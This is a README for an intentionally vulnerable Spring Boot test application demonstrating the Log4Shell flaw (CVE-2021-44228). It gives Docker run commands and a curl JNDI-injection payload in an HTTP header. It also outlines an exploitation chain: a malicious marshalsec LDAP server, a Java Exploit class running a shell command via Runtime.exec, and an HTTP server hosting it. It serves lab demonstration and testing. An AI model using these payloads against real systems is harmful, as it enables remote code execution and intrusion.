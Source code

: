 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_191.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 vulnerable-app
```

## Exploitation

You can confirm the application is vulnerable by running:

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

You will see the following stack trace in the application logs:

```
2021-12-10 12:43:13,416 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1/a]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2749)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
```

## Note

While this is enough to show the application is vulnerable, I do not have a full PoC yet. As explained in LunaSec's advisory, the exploitation steps should be:
* Use [MarshelSec](https://github.com/mbechler/marshalsec) to run a malicious LDAP server:

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://your-local-ip:8888/#Exploit"
```

* Generate `Exploit.class` as follows:

```
cat >> Exploit.java <<EOF
class Exploit {
    static {
        try { Runtime.getRuntime().exec("touch /pwned"); } catch(Exception e) {}
    }
}
EOF
javac Exploit.java
```

* Make the file available: `python3 -m http.server --bind 0.0.0.0 8888`

* Trigger the exploit: `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.1.143:1389}`

Unfortunately, I am experiencing the same issue with marshalsec as other people (see [marshalsec#20](https://github.com/mbechler/marshalsec/issues/20)) where the first-stage of the exploit is triggered, but the second stage is not.

That said, I believe the output above is enough to demonstrate the application is vulnerable, since (1) it connects to the LDAP server, and (2) it doesn't connect to the LDAP server when using a patched version of log4j.

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/